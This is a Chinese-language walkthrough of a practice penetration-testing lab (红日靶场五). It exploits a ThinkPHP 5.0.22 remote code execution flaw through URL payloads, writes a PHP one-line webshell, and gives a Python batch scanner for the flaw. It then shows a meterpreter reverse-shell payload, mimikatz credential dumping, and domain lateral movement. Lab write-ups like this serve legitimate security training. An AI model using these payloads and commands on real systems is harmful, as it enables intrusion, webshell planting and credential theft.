

# 红日靶场五

## 外网

```
虚拟机密码：
win7  sun\heart 123.com   win7内域用户登录  Administrator  dc123.com  进入系统密码  123.com
win8  sun\admin 2020.com  进入系统密码：root.123
网卡配置：
win7 内网：192.168.138.136  外网：192.168.1.132
win8 内网：192.168.138.138
```

### 信息搜集

这里提前进入win7将phpstudy打开运行一下，不然扫不到

**端口扫描：**


这里可以看到几个主要的端口，例如80、135、139、445，这里首先就可以想到可以利用的点有ipc、smb

访问80看一下


由页面信息我们可以得到这是一个thinkphp并且版本号为5.x


这里我们通过报错得到了更加具体的版本信息，版本号为5.0.22

### getshell

这里我们可以上kali看一下有哪些版本漏洞


可以看到这里有一个5.x的远程执行漏洞

这里直接进入文件夹查看一下txt列出来的pyload

```
cd /usr/share/exploitdb/exploits/php/webapps
```


找到对应版本后fuzz以下payload，这个是列出数据库名字，这里看到数据库名为root

```
http://192.168.1.132/thinkphp/public/?s=.|think\config/get&name=database.username
```


```
http://192.168.1.132/thinkphp/public/?s=.|think\config/get&name=database.password
```

这里的应该是密码，但是发过去没有回显


这里打出phpinfo

```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```



传参看一下当前权限

```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```


可以看到当前的权限是administrator

查看一下网卡信息


可以发现是双网卡所以可以猜测大概率含有域环境

这里查看一下进程信息，看看是否含有杀软


发现没有杀软，尝试直接写入一句话木马

```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo "<?php @eval($_POST[cmd]);?>" > connect.php
```


```
192.168.1.132/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
```

查看一下是否写入成功


发现成功上传

使用蚁剑连接


连接成功

### thinkphp批量检测

thinkphp的版本这么多，如果kali里面的漏洞库没有，而在搜索引擎上去搜索又太耗费时间，所以用一个批量检测thinkphp漏洞的脚本

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
'''
name: thinkphp远程代码检测
description: ThinkPHP5 5.0.22/5.1.29 远程代码执行漏洞
'''


import re
import sys
import requests
import queue
import threading
from bs4 import BeautifulSoup
class thinkphp_rce(threading.Thread):
    def __init__(self, q):
        threading.Thread.__init__(self)
        self.q = q
    def run(self):
        while not self.q.empty():
            url=self.q.get()
            headers = {"User-Agent":"Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_8; en-us) AppleWebKit/534.50 (KHTML, like Gecko) Version/5.1 Safari/534.50"}
            payload = r"/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1"
            vulnurl = url + payload
            try:
                response = requests.get(vulnurl, headers=headers, timeout=3, verify=False, allow_redirects=False)
                
                soup = BeautifulSoup(response.text,"lxml")
                if 'PHP Version' in str(soup.text):
                    print ('[+] Remote code execution vulnerability exists at the target address')
                    print ('[+] Vulnerability url address ' + vulnurl)
                    with open('target.txt','a') as f1:
                        f1.write(vulnurl+'\n')
                    f1.close()
                else:
                    print ('[-] There is no remote code execution vulnerability in the target address')
            except:
                print ('[!] Destination address cannot be connected')
def urlget():
    with open('url.txt','r')as f:
        urls=f.readlines()
        for tmp in urls:
            if '//' in tmp:
                url=tmp.strip('\n')
                urlList.append(url)
            else:
                url='http://'+tmp.strip('\n')
                urlList.append(url)
        return(urlList)
    f.close()

if __name__=="__main__":
    print('''----------------扫描开始-------------------

*Made by  :tdcoming
*For More :https://t.zsxq.com/Ai2rj6E
*MY Heart :https://t.zsxq.com/A2FQFMN


              _______   _                         _               
             |__   __| | |                       (_)              
                | |  __| |  ___  ___   _ __ ___   _  _ __    __ _ 
                | | / _` | / __|/ _ \ | '_ ` _ \ | || '_ \  / _` |
                | || (_| || (__| (_) || | | | | || || | | || (_| |
                |_| \__,_| \___|\___/ |_| |_| |_||_||_| |_| \__, |
                                                             __/ |
                                                            |___/ 
            ''')
    urlList=[]
    urlget()
    threads = []
    threads_count = 10
    q=queue.Queue()
    for url in urlList:
        q.put(url)
    for i in range(threads_count):
        threads.append(thinkphp_rce(q))
    for i in threads:
        i.start()
    for i in threads:
        i.join()
```

这里的使用方法很简单：将要检测的目标放在url.txt里面，如果存在漏洞的地址将自动生成一个target.txt文本保存


## 内网

### 信息搜集

查看当前用户信息以及网卡信息


查看域内信息

```
net view

net config workstation

net user /domain
```


### 上线msf

先生成一个pyload

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.128 LPORT=4444 -f exe > abc.exe 
```

然后通过蚁剑上传到目录文件


msf开启监听命令执行即可


### 搜集

使用getsystem提权到system权限


提权后获取一个windows环境下的shell继续对域进行信息搜集

```
chcp 65001 防止乱码
net user /domain
net group "domain computers" /domain
net group "domain controllers" /domain
net group "domain admins" /domain
```


从上面可以得到的信息有

```
域控域名：DC.sun.com

域名：sun.com
```


这里就得到了域控的ip为192.168.138.138

### 获取凭证

这里因为有两个网段就先把路由添加上方便后续操作

```zsh
# msf操作
background
route add 192.168.138.0 255.255.255.0 9 #9是session号		192.168.138.0是为了能访问192.168.138.0/24网段
route print
    
# session操作
run autoroute -s 192.168.138.0/24
run autoroute -p

sessions #列出所有后台会话
sessions 9 #切换回会话9
```


background把会话保存在了session 9，所以这里用9


到sessions 1进行下一步操作


这里ps看一下进程，这里选择session，使用kiwi来获取靶机密码，注意这里需要进行的一个操作为进程迁移，因为我们这里上线到msf的载荷是32位的(即x86)，这里需要找一个64位的(即x64)进行进程迁移才能使用kiwi获取靶机密码


进程迁移到1120


这里执行完成对session的操作

```
sessions -i 2
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```


这里可以看到抓到一个域管密码dc123.com和一个域成员密码

### 横向移动

这里抓到了靶机和域管的密码，那么这里就可以进行横向移动

首先上线cs，用cs自带的工具


传入exe


上号成功


这里提了一下权

然后后面用mimikatz抓取了一下密码，用fscan扫描了一次

新建立一个监听，横向移动成功并且是system权限


这里我们针对域控进行扫描

### 

这里发现域控含有永恒之蓝漏洞